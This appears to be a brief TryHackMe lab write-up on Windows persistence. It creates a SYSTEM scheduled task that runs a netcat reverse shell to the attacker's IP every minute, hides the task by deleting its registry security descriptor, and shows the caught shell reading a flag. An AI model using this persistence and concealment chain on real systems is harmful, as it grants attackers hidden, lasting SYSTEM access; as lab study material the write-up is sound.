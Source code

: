 We are going to abuse Scheduled Tasks to Reverse Shell back to our box
```powershell
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.11.93.71 4445" /ru SYSTEM
```

We want to hide our new task:
```powershell
c:\tools\pstools\PsExec64.exe -s -i regedit

reg delete HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\THM-TaskBackdoor /v SD
```

We now have a rev shell
```bash
┌──(sstephens㉿kali-ppt)-[~/Documents/tryhackme/win_local_pers/backdoor_services]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.11.93.71] from (UNKNOWN) [10.10.226.174] 50015
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>c:\flags\flag9.exe
c:\flags\flag9.exe
THM{JUST_A_MATTER_OF_TIME}

```